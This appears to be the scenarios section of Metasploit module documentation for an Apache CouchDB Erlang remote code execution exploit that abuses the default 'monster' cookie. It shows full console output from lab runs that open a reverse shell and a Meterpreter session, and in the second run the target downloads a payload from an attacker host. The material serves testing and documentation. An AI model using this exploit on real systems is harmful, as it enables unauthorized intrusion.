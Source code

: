 ## Scenarios
### Unix Command, Ubuntu 20.04, Apache CouchDB 3.2.1
```
msf6 exploit(multi/http/apache_couchdb_erlang_rce) > run

[*] Started reverse double SSL handler on 172.16.199.1:4444
[*] 172.16.199.164:4369 - Running automatic check ("set AutoCheck false" to disable)
[*] 172.16.199.164:4369 - Attempting to connect to the Erlang Port Mapper Daemon (EDPM) socket at: 172.16.199.164:4369...
[*] 172.16.199.164:4369 - Successfully found EDPM socket
[*] 172.16.199.164:4369 - Attempting to connect to the Erlang Server with an Erlang Server Cookie value of "monster" (default in vulnerable instances of Apache CouchDB)...
[*] 172.16.199.164:4369 - Connection successful
[*] 172.16.199.164:4369 - Erlang challenge and response completed successfully
[+] 172.16.199.164:4369 - The target is vulnerable. Successfully connected to the Erlang Server with cookie: "monster"
[*] 172.16.199.164:4369 - sending payload...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo t82KLKYvcDd54em2;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "t82KLKYvcDd54em2\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (172.16.199.1:4443 -> 172.16.199.164:53778) at 2022-10-13 14:09:49 -0400

id
uid=128(couchdb) gid=134(couchdb) groups=134(couchdb)
uname -a
Linux ubuntu 5.15.0-50-generic #56~20.04.1-Ubuntu SMP Tue Sep 27 15:51:29 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
```

### Linux Dropper, Ubuntu 20.04, Apache CouchDB 3.2.1
```
msf6 exploit(multi/http/apache_couchdb_erlang_rce) > run

[*] Started reverse TCP handler on 172.16.199.1:4444
[*] 172.16.199.164:4369 - Running automatic check ("set AutoCheck false" to disable)
[*] 172.16.199.164:4369 - Attempting to connect to the Erlang Port Mapper Daemon (EDPM) socket at: 172.16.199.164:4369...
[*] 172.16.199.164:4369 - Successfully found EDPM socket
[*] 172.16.199.164:4369 - Attempting to connect to the Erlang Server with an Erlang Server Cookie value of "monster" (default in vulnerable instances of Apache CouchDB)...
[*] 172.16.199.164:4369 - Connection successful
[*] 172.16.199.164:4369 - Erlang challenge and response completed successfully
[+] 172.16.199.164:4369 - The target is vulnerable. Successfully connected to the Erlang Server with cookie: "monster"
[*] 172.16.199.164:4369 - Using URL: http://172.16.199.1:8080/xiNdbG3
[*] 172.16.199.164:4369 - sending payload...
[*] 172.16.199.164:4369 - Client 172.16.199.164 (Wget/1.20.3 (linux-gnu)) requested /xiNdbG3
[*] 172.16.199.164:4369 - Sending payload to 172.16.199.164 (Wget/1.20.3 (linux-gnu))
[*] Meterpreter session 10 opened (172.16.199.1:4444 -> 172.16.199.164:57710) at 2022-10-17 18:33:57 -0400
[*] 172.16.199.164:4369 - Command Stager progress - 100.00% done (112/112 bytes)
[*] 172.16.199.164:4369 - Server stopped.

meterpreter > getuid
```